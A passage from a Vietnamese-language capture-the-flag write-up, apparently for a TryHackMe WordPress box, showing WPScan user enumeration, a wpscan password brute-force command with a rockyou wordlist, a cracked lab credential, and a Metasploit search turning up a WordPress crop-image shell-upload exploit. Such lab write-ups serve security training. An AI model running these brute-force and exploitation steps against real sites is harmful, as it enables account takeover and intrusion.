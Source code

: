 ```python
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Karen Wheeler
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Rss Generator (Aggressive Detection)

[+] Billy Joel
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Rss Generator (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
```

Tôi có 2 username là *Kwheel* và *bjoel*. Thử brute force với 2 user này. 

```python
┌──(neo㉿kali)-[~]
└─$ wpscan --url blog.thm --usernames kwheel bjoel --passwords /usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt 
```

Trong khi chờ thì tôi thử tìm exploit về Wordpress phiên bản 5.0 xem có tìm được RCE hay không, nhưng các exploit này đều yêu cầu phải có username và password :no_good:

```python
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - kwheel / cutiepie1                                                                                                                                                               
Trying kwheel / randall Time: 00:05:42 <====                                                                                                           > (2865 / 62051)  4.61%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: kwheel, Password: cutiepie1
```

Khi login vào Wordpress, tôi cũng không có gì để khai thác do đây chỉ là user thường. Tuy nhiên bây giờ đã có user-pass nên tôi sẽ quay lại các exploit đã tìm được bên trên. 

Tôi có 1 RCE exploit trong Metasploit

```python
msf6 > search wordpress 5.0

Matching Modules
================

   #  Name                                              Disclosure Date  Rank       Check  Description
   -  ----                                              ---------------  ----       -----  -----------
   0  exploit/multi/http/wp_crop_rce                    2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload
   1  exploit/unix/webapp/wp_property_upload_exec       2012-03-26       excellent  Yes    WordPress WP-Property PHP File Upload Vulnerability
   2  auxiliary/scanner/http/wp_registrationmagic_sqli  2022-01-23       normal     Yes    Wordpress RegistrationMagic task_ids Authenticated SQLi


Interact with a module by name or index. For example info 2, use 2 or use auxiliary/scanner/http/wp_registrationmagic_sqli

msf6 > 
```
